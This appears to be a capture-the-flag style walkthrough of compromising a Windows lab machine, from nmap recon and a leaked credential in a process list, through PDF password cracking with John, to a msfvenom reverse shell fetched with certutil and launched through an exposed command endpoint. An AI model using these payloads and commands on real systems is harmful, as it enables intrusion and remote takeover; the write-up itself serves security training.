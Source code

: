 # Starting off with Nmap scan:
`nmap -A [ip]`

Found Microsoft HTTPAPI/2.0
![aef86baa9d7354a521f604b96d71912a.png](../../../../../../_resources/aef86baa9d7354a521f604b96d71912a.png)

Visit port 8089 in browser:
![79538b38fd511a42c652f5b773339c35.png](../../../../../../_resources/79538b38fd511a42c652f5b773339c35.png)

Click on the buttons:
![745fc3b6a2358959655c84313d13eb0c.png](../../../../../../_resources/745fc3b6a2358959655c84313d13eb0c.png)
Redirected to another IP at port 333333

# Try to curl port 33333 on the target:
![c0956f60be12ee4397164e10d6c6d4c3.png](../../../../../../_resources/c0956f60be12ee4397164e10d6c6d4c3.png)
Notice  that curling list-running-procs on port 33333 on target returns 'Cannot "GET"' message

Trying POST
Looked up how to send a post request using curl and found:
`curl -X POST http://192.168.144.99:33333/list-running-procs`
![7f45572eaedce9721f52c26c3118f63d.png](../../../../../../_resources/7f45572eaedce9721f52c26c3118f63d.png)
Looks like it's missing a content length. I looked up how to add one using curl:
Using `curl -d ""` allows to specify content length in the request:
Tried this:
`curl -d "1" -X POST http://192.168.144.99:33333/list-running-procs`
![ab548ccb95ecc795668843553ca3d49b.png](../../../../../../_resources/ab548ccb95ecc795668843553ca3d49b.png)
Awesome, got the system process list. Found an interesting one that has what appears to be a user name and password from a cmd session:
![159b5825dc71568f4990827e127e41d7.png](../../../../../../_resources/159b5825dc71568f4990827e127e41d7.png)
username: ariah
pass: Tm93aXNlU2xvb3BUaGVvcnkxMzkK

The password seems to be encrypted or encoded. I tried the simple base 64 decode in Kali, and it worked to show what seems like a password:
![accbec68d5b9a34959013c116f3f7202.png](../../../../../../_resources/accbec68d5b9a34959013c116f3f7202.png)
user: ariah
password: NowiseSloopTheory139

Tried to login using ftp with the newly discovered creds:
![9f12aecd222c17631b53be7a442ffbf7.png](../../../../../../_resources/9f12aecd222c17631b53be7a442ffbf7.png)

Checked for any files:
![7ff4c894100deae2a1d1837268ac3087.png](../../../../../../_resources/7ff4c894100deae2a1d1837268ac3087.png)
Found Infrastructure.pdf

Downloaded Infrastructure.pdf:
![1b6aa781fb3a570f92b28d13b628a112.png](../../../../../../_resources/1b6aa781fb3a570f92b28d13b628a112.png)

Tried to open it, but it's password protected. Tried the password for ariah, but that did not work:
![28dc628bca5f4a5ca2cc5625e5890a65.png](../../../../../../_resources/28dc628bca5f4a5ca2cc5625e5890a65.png)

# Using John to get it. Use pdf2john.pl:
`/usr/share/john/pdf2john.pl Infrastructure.pdf > InfraPDFhash`
![8cf8570f7d2b56db0d2596fac36cfac9.png](../../../../../../_resources/8cf8570f7d2b56db0d2596fac36cfac9.png)
Didn't work properly. Since the above screenshot said the pdf file may not have been transferred properly, I decide to try to login using ssh:
`ssh ariah@192.168.144.99`
![5bb96d766f48cd0c9b04cb52cbec78fe.png](../../../../../../_resources/5bb96d766f48cd0c9b04cb52cbec78fe.png)
Okay, there we go. I'm now on the machine. Let's browse for files:
Found the local.txt in the Desktop:
![8bc989085e9389a370b5d945fe20680e.png](../../../../../../_resources/8bc989085e9389a370b5d945fe20680e.png)

Found ftp directory on the c drive. Maybe I can get that pdf from here instead:
![8269dd9a3ac2d2b1ac6dd70977d5311a.png](../../../../../../_resources/8269dd9a3ac2d2b1ac6dd70977d5311a.png)

# Decide to use scp to get the file:
`scp ariah@192.168.144.99:C:/ftp/Infrastructure.pdf .`
![5bb094f2a73523d2aafd8a833cd8ec23.png](../../../../../../_resources/5bb094f2a73523d2aafd8a833cd8ec23.png)

# Trying John again:
![adf76c70cf2071a0848ae646d145424b.png](../../../../../../_resources/adf76c70cf2071a0848ae646d145424b.png)
Seems to have worked this time:
![3219cb120d26317fc69f7f6c165d8e25.png](../../../../../../_resources/3219cb120d26317fc69f7f6c165d8e25.png)
Running John to try and crack the pdf:
![9693cecea6d2afed1e805e5e4e118fa1.png](../../../../../../_resources/9693cecea6d2afed1e805e5e4e118fa1.png)
Updated John command to specify rockyou.txt:
![267b42927d93021b1213c9ff1c7e7858.png](../../../../../../_resources/267b42927d93021b1213c9ff1c7e7858.png)
pdf pass: ariah4168

Finally unlocked the pdf:
![67c815ebfc6ef4d6e7d9ab50256b9e3a.png](../../../../../../_resources/67c815ebfc6ef4d6e7d9ab50256b9e3a.png)

# Ran netstat on the machine logged in as ariah to check ports that these servers could be running on:
![60b5d8ff94c35b28b4314ead0e00ee65.png](../../../../../../_resources/60b5d8ff94c35b28b4314ead0e00ee65.png)
Some ports that didn't show up in the nmap scan. Interesting.

Checking the http://nickel/? command endpoint on the system:
`curl http://nickel/?whoami`
![3626e36afcfc049415fd1b21e4a6d7b0.png](../../../../../../_resources/3626e36afcfc049415fd1b21e4a6d7b0.png)

# Construct a reverse shell to be executed on the temporary command endpoint:
- Using msfvenom to create the shell.exe (since this is a windows machine)
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.144 LPORT=4444 -f exe > shell.exe`
dissecting the command:
-p = payload 
LHOST = my attack machine IP (the one for tun0 for the VPN I'm on)
LPORT = local attack machine port to listen on
-f = file type for the payload shell
-> = write to a file
![3c04b8485a81a0d878aaed61af193f3a.png](../../../../../../_resources/3c04b8485a81a0d878aaed61af193f3a.png)

- Start webserver from directory where shell lives now:
`python3 -m http.server 80`
![3a761fd63f9813fd3a08ee620d4ea782.png](../../../../../../_resources/3a761fd63f9813fd3a08ee620d4ea782.png)

- Use certutil to get the shell.exe from the attacker machine onto the target:
`certutil.exe -urlcache -f http://192.168.49.144/shell.exe shell.exe`
![999fec0e54012894f4996be983f3551f.png](../../../../../../_resources/999fec0e54012894f4996be983f3551f.png)
![66cb9b3e7f3d2b306bba3d3ddb912028.png](../../../../../../_resources/66cb9b3e7f3d2b306bba3d3ddb912028.png)

- Kill python server on attack machine and start netcat listener on port specified in payload:
`nc -nlvp 4444` 
![4ce2d1fd8389ebdec93f41d8b6a668aa.png](../../../../../../_resources/4ce2d1fd8389ebdec93f41d8b6a668aa.png)

Make sure we can use curl to find the file on victim machine when going through command endpoint before trying to execute the shell.exe:
`curl http://nickel/?'cmd /c dir C:\Users\ariah'`
![63f0efb6253284fa65675de0a64997ee.png](../../../../../../_resources/63f0efb6253284fa65675de0a64997ee.png)
malformed url typically means the string needs to be url encoded
I'm trying to use https://www.urlencoder.org/
cmd /c dir C:\Users\ariah becomes cmd%20%2Fc%20dir%20C%3A%5CUsers%5Cariah

Using this in place of the desired command in the URL on the target like so:
`curl http://nickel/?cmd%20%2Fc%20dir%20C%3A%5CUsers%5Cariah`
produces the following:
![6e1f7e7d9cbcdc83d81b05d98314ed71.png](../../../../../../_resources/6e1f7e7d9cbcdc83d81b05d98314ed71.png)

Okay, now that the URL is formed properly, I should be able to execute the shell:
Running cmd /c C:\Users\ariah\shell.exe would normally do it. So I just need to URL encode this command like I did the previous one:
![e0fa4ffeaa383fcf662fad2081d024cb.png](../../../../../../_resources/e0fa4ffeaa383fcf662fad2081d024cb.png)
The full command should be:
`curl http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5Cshell.exe`

This was not working for whatever reason with the port 4444 and the payload I specified earlier so I instead created a new one and used port 80 with netcat to listen. This is the command used to generate the new payload:
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.144 LPORT=80 -f exe > f.exe`
![5a59b8cef219c538cab62266ae6c1ccb.png](../../../../../../_resources/5a59b8cef219c538cab62266ae6c1ccb.png)
I then uploaded this to the target as g.exe using this command:
`certutil.exe -urlcache -f http://192.168.49.144/f.exe g.exe`
![eed150ada09d918794f0bb97eadb1630.png](../../../../../../_resources/eed150ada09d918794f0bb97eadb1630.png)

Started my netcat listener on port 80:
`nc -nlvp 80`
![3d306919d08bdec857715cea7f447b5d.png](../../../../../../_resources/3d306919d08bdec857715cea7f447b5d.png)

Encoding the appropriate command for the URL:
![ce9902e01d02ed69014c925d5cc715e4.png](../../../../../../_resources/ce9902e01d02ed69014c925d5cc715e4.png)

Ran the command on the target to execute the g.exe:
`curl http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5Cg.exe`
![42fb72a37428a4635c75c6dc00652c07.png](../../../../../../_resources/42fb72a37428a4635c75c6dc00652c07.png)

And watched the shell come to my netcat listener:
![b3b3b0ba8d0d5c62cc7c9866c6b6b3b9.png](../../../../../../_resources/b3b3b0ba8d0d5c62cc7c9866c6b6b3b9.png)

Found the proof.txt in Administrator Desktop:
![d447719434575be0d5afac23fbc7c217.png](../../../../../../_resources/d447719434575be0d5afac23fbc7c217.png)

